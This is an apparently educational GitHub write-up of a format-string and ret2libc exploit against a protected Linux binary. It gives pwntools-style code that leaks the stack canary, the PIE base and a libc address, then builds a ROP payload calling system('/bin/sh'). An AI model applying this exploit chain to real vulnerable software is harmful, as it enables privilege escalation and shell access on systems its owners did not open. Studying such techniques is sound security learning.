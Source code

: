 # Privilege Escalation via Format String and ret2libc Attack

This project demonstrates a Linux binary exploitation technique that leverages:

- A **format string vulnerability** to leak memory addresses  
- **Bypassing ASLR and stack canary protections**  
- A **ret2libc attack** to gain shell access  

---

## 🧠 Overview

The target binary includes common security mechanisms:

- **ASLR** (Address Space Layout Randomization)  
- **Stack Canary** (to prevent stack smashing)  
- **PIE** (Position Independent Executable)  

The goal is to **leak protected information** and exploit it to **gain a shell** by executing `system("/bin/sh")`.

---

## 📌 Exploitation Strategy

1. **Leak the stack canary and main address** using a format string vulnerability  
2. **Compute the binary base address** (defeat PIE) and find necessary function/gadget addresses  
3. **Leak a libc address** using `puts()` to calculate the libc base address  
4. **Launch a ret2libc attack** to call `system("/bin/sh")`  

---

## 🔍 Step-by-Step Exploit

### 1. Leak Stack Canary & Binary Base Address

The format string vulnerability allows leaking memory values:


io.sendline(b'%17$p.%13$p')
leak_line = io.recvline().strip()
main_str, canary_str = leak_line.split(b'.')
main = int(main_str, 16)
canary = int(canary_str, 16)


### 2. Calculate Important Addresses

Using known offsets:

binary_base = main - main_offset
getchar = getchar_got_offset + binary_base
puts = puts_plt_offset + binary_base
pop_rdi = pop_rdi_offset + binary_base
ret = ret_offset + binary_base

This gives us:

    GOT address of getchar

    PLT address of puts

    pop rdi; ret gadget

    ret gadget for alignment

### 3. Leak a libc Address

We leak getchar's actual libc address via puts():

payload = b'Y' * 104
payload += p64(canary)
payload += b'Y' * 8
payload += p64(pop_rdi)
payload += p64(getchar)
payload += p64(puts)
payload += p64(main)

Parse the leaked address:

getchar_libc = u64(io.recvline().strip().ljust(8, b"\x00"))
libc_base = getchar_libc - getchar_libc_offset

### 4. ret2libc: Execute system("/bin/sh")

Once the libc base is known:

system_address = libc_base + system_offset
bin_sh_address = libc_base + bin_sh_offset

Final payload:

payload = b'Y' * 104
payload += p64(canary)
payload += b'A' * 8
payload += p64(pop_rdi)
payload += p64(bin_sh_address)
payload += p64(ret)
payload += p64(system_address)

